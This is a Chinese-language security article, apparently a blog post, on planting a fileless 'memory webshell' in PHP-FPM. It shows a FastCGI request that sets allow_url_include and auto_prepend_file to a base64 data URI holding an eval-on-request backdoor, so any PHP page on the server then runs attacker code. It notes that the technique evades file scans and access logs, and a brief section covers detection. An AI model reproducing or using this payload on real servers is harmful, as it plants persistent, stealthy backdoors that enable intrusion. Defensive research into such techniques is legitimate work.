 # 利用 PHP-FPM 做内存马的方法
******点击****蓝****字 / 关注我们******

前言
--

Java 内存马固然是极好的，可我略微瞟了一眼PHP 的占有率，虽然从我上次关注 PHP 10年都过去了，PHP 却仍然是最为主流的服务端 Web 语言。所以，为什么没人做 PHP 的内存马研究呢

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/1/68b697c7-7a8f-4795-ba2e-0c03363ac808.png?raw=true)

然而并不是没人做研究，可由于 PHP 语言的特性，他的一次执行生命周期，通常就是伴随着请求周期开始和结束的。因此，很难完成一段代码的内存长久驻留。目前网上如果搜索“PHP 内存马”，通常会发现两种模式：

1.  “不死”马：所谓的不死马，其实就是直接用代码弄一个死循环，强占一个 PHP 进程，并不间断的写一个PHP shell，或者执行一段代码。
    
2.  Fastcgi马：这个利用了 PHP-FPM 可以直接通过 fastcgi 协议通讯的原理，可以指定`SCRIPT_FILENAME`，去执行机器上存在的 PHP 文件；或者配合`auto_prepend_file+php://input`，通过每次提交POST code去执行。（稍微感叹一下，这个问题从我写fcgi_exp的代码，已过了整整10年）
    

然而，方案1，非常的ugly，阻塞进程不说，而且很多时候还是要本地落盘文件，只是想让管理员删不掉罢了。而方案2，仔细看，却只是对 FPM 未授权访问的漏洞利用而已。甚至更不能算作是内存马的概念。这两者本质上都是受限于“PHP 代码无法长久驻留内存执行”这个问题。因此，关于 PHP 的内存马研究，大部分的时候也就只能止步于此了。

方案
--

现在，让我们聚焦一下，我们究竟想要达到一个什么样的目标：所谓内存马，最主要是为了避免后门文件落盘，让后门代码在内存中驻留，并且可以通过特定的方式访问，即可触发执行。从这个描述中，我们可以看出，隐藏是最核心的诉求。尤其是为了在高等级的对抗过程中，避免管理员从各类文件扫描、流量特征、行为日志中检测出来。内存马只能从进程本身的空间中做检测，传统的旁路检测很难做到这一点。为此，什么通用性，重启即丢失等问题，通通无所谓。所以，我们把需求拆解一下，实际上要解决的两个问题：

1.  让后门代码在内存中驻留。
    
2.  可以通过“正常”的请求手段，触发执行。
    

我们来想法解决这个问题。其实，从 PHP-FPM 这个 fastcgi server 的实现上，我们就可以知道，本身这个 FPM 的进程就是持久化的，并且并不会如传统 CGI 模式一样，处理一个请求就会消亡。因此，我们只要能在这个进程上下文中保存信息，就算解决了问题。事实上，可能很多人并不知道，**在一次 fastcgi 请求中，任何通过 PHP\_VALUE/PHP\_ADMIN_VALUE 修改过的PHP配置值，在此 FPM 进程的生命周期内，都是会保留下来的。** 于是，真正的方法其实很简单，我们只需要把前面提到的外部方案2略微改一下即可。触发方式延续着之前的`auto_prepend_file`的方案，但由于我们是想要内存马，我们不再沿用`php://input`，否则还得每次都得提交代码，而是替换成`data`协议固定下来。假设在我们获取到一个 Web 的权限后——甚至我们可能只需要一个 SSRF 漏洞即可——我们只需要往 fpm 监听的端口发送如下结构的内容（这里是我本机测试）：

` array(15) {  
  ["GATEWAY_INTERFACE"]=>  
  string(11) "FastCGI/1.0"  
  ["REQUEST_METHOD"]=>  
  string(3) "GET"  
  ["SCRIPT_FILENAME"]=>  
  string(30) "/home/www/wofeiwo/t.php"  
  ["SCRIPT_NAME"]=>  
  string(14) "/wofeiwo/t.php"  
  ["QUERY_STRING"]=>  
  string(0) ""  
  ["REQUEST_URI"]=>  
  string(14) "/wofeiwo/t.php"  
  ["DOCUMENT_URI"]=>  
  string(14) "/wofeiwo/t.php"  
  ["PHP_ADMIN_VALUE"]=>  
  string(102) "allow_url_include = On  
auto_prepend_file = \"data:;base64,PD9waHAgQGV2YWwoJF9SRVFVRVNUW3Rlc3RdKTsgPz4=\""  
  ["SERVER_SOFTWARE"]=>  
  string(13) "80sec/wofeiwo"  
  ["REMOTE_ADDR"]=>  
  string(9) "127.0.0.1"  
  ["REMOTE_PORT"]=>  
  string(4) "9985"  
  ["SERVER_ADDR"]=>  
  string(9) "127.0.0.1"  
  ["SERVER_PORT"]=>  
  string(2) "80"  
  ["SERVER_NAME"]=>  
  string(9) "localhost"  
  ["SERVER_PROTOCOL"]=>  
  string(8) "HTTP/1.1"  
}  
`

以上是 fastcgi 的通讯包大概结构内容。至于怎么构造这个包，可以参考这个代码自己来改写。我们看到，由于不需要`php://input`，我们只需要 GET 请求即可，并且，构造请求只需要随意给一个存在的 php 文件路径，无所谓内容是啥。一个发包搞定一切，我们的 payload 已经无文件植入了。由于使用了`auto_prepend_file`，因此我们只需要访问服务器上任意一个正常的 PHP 文件，无需任何修改，都能触发我们的内存马。我们访问个普通的 phpinfo.php 文件，看看是否能够稳定的固化我们的内存马。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/1/a827da5e-ff99-487d-94da-c4b76b981a8e.png?raw=true)

img

果然已经成功的把我们想要的payload植入了进去。这里我们payload使用的是`<?php @eval($_REQUEST[test]); ?>`的 base64。我们访问`phpinfo.php?test=echo(aaaaa);`看看效果，当然正常使用的时候我们可以更隐蔽。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/1/cf7a85d5-7a8e-431e-bc4a-edb23ab86373.png?raw=true)

img

当然，这个方案也有局限性，因为是内存马，所以他实际上是和PHP-FPM的 Worker 进程绑定的，因此，如果服务器上有多个Worker进程，我们就需要多发送刚才的请求几次，才能让我们的payload“感染”每一个进程。此外，我们还需要关注一个php-fpm.conf的配置:

> pm.max\_requests int 设置每个子进程重生之前服务的请求数。对于可能存在内存泄漏的第三方模块来说是非常有用的。如果设置为 '0' 则一直接受请求，等同于 PHP\_FCGI\_MAX\_REQUESTS 环境变量。默认值：0。

这个配置定义了每一个 worker 进程最大处理多少请求，就会自动重生。主要作用可能是避免内存泄露，但是一旦重生了，我们的内存马也就失效了。庆幸的是，默认是不会重生的。

检测
--

既然是内存马，因此我们无法从代码扫描中发现。并且由于他只是修改了内存中的 PHP 配置，我们也无法从`PHP.ini/.user.ini/php-fpm.conf`等文件内容中检测。真正添加内存马由于只需要对fpm监听的端口发送请求，因此也无法从webserver的accesslog中发现问题。但是我们是可以通过rasp之类的工具，通过检查`auto_prepend_file/auto_append_file/allow_url_inclue`配置的变化（虽然目前很多 rasp 也不会做这些操作）来做检测。另外，由于触发方式可以是任意一个 PHP 文件，所以，我们想从后续的访问行为中做检查也有一定难度，但是可以从网络流量中检查对应的后门 payload，或者从进程的行为中，来做检查。

扩展
--

关于 PHP-FPM 的内存马，暂时就说这么多。那么这里还有一些疑问可以扩展：\\1. mod_php模式下的内存马是否有可能实现？\\2. 触发是否有除了`auto_prepend_file/auto_append_file`之外的方案？\\3\. 如何做到持久化，避免重生或者重启之后的？我就不做一一展开了，有兴趣的朋友，可以延续着问题继续深入，欢迎讨论。
